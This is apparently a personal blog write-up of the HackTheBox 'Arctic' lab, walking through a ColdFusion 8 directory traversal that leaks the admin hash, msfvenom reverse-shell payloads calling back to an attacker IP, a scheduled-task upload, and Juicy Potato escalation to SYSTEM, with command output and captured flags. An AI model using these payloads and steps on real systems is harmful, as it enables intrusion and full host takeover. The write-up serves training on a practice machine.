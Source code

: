```yaml
---
layout: post
title: "Arctic Writeup - HackTheBox"
category: HackTheBox
---
```

# HTB lab Machine - Arctic

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.51.4 folder that I have attached to this post.

## Enumeration summary

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%),
```

```
PORT      STATE         SERVICE      REASON      VERSION
53/udp    open|filtered domain       no-response
67/udp    open|filtered dhcps        no-response
68/udp    open|filtered dhcpc        no-response
69/udp    open|filtered tftp         no-response
123/udp   open|filtered ntp          no-response
135/udp   open|filtered msrpc        no-response
137/udp   open|filtered netbios-ns   no-response
138/udp   open|filtered netbios-dgm  no-response
139/udp   open|filtered netbios-ssn  no-response
161/udp   open|filtered snmp         no-response
162/udp   open|filtered snmptrap     no-response
445/udp   open|filtered microsoft-ds no-response
500/udp   open|filtered isakmp       no-response
514/udp   open|filtered syslog       no-response
520/udp   open|filtered route        no-response
631/udp   open|filtered ipp          no-response
1434/udp  open|filtered ms-sql-m     no-response
1900/udp  open|filtered upnp         no-response
4500/udp  open|filtered nat-t-ike    no-response
49152/udp open|filtered unknown      no-response
```

![image-20210508103829598](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508103829598.png)

## Exploitation

port 8500 has adobe coldfusion running. went to /CFIDE/componentutils/cfcexplorer.cfc. Did not have a passsword. Found this exploit: https://www.exploit-db.com/exploits/14641, which lead me to this dir traversal:

```
http://10.129.51.4:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gave me the following output:

![image-20210508104641917](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508104641917.png)

Thats a sha1:

![image-20210508104656823](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508104656823.png)

Generated payload and started listener for 4343:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.45 LPORT=4343 -f raw > shell.jsp
```

I went on to `http://10.129.51.4:8500/CFIDE/administrator/index.cfm` -> Debugging &  Logging -> add new scheduled task:

![image-20210508105931528](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508105931528.png)

Found path to be C:\ColdFusion8\wwwroot\CFIDE on http://10.129.51.4:8500/CFIDE/administrator/reports/index.cfm. So I adjusted the filepath for .\shell.jsp afterwards.	

Run the scheduled task, run the shell.jsp file via the webbrowser:

```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
C:\Users\tolis\Desktop>whoami
whoami
arctic\tolis

C:\Users\tolis\Desktop>

```

Lol is it juicy potato time again:

```
C:\Users\tolis\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```

Lol this was just like bastard:

```
C:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          10/5/2021, 1:04:57 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 130 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.059 MB
Virtual Memory: In Use:    988 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.51.4
                                 [02]: fe80::19ab:9cc1:79f3:fbad
                                 [03]: dead:beef::19ab:9cc1:79f3:fbad

C:\Users\tolis\Desktop>wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
OSArchitecture  
64-bit          

```

Ez:

```
kali@kali:~/Desktop/DownloadedScripts$ msfvenom --platform Windows -p windows/x64/shell_reverse_tcp lhost=10.10.14.45 lport=9999 -f exe > shell.exe
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

```
C:\Users\tolis\Desktop>jp.exe -t * -p shell.exe -l 9999 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
jp.exe -t * -p shell.exe -l 9999 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9999
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\Administrator\Desktop

22/03/2017  10:02 ��    <DIR>          .
22/03/2017  10:02 ��    <DIR>          ..
22/03/2017  10:02 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  33.187.307.520 bytes free

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
C:\Users\Administrator\Desktop>

```

## Final thoughts

this is to easy for words. 20 pts on OSCP.
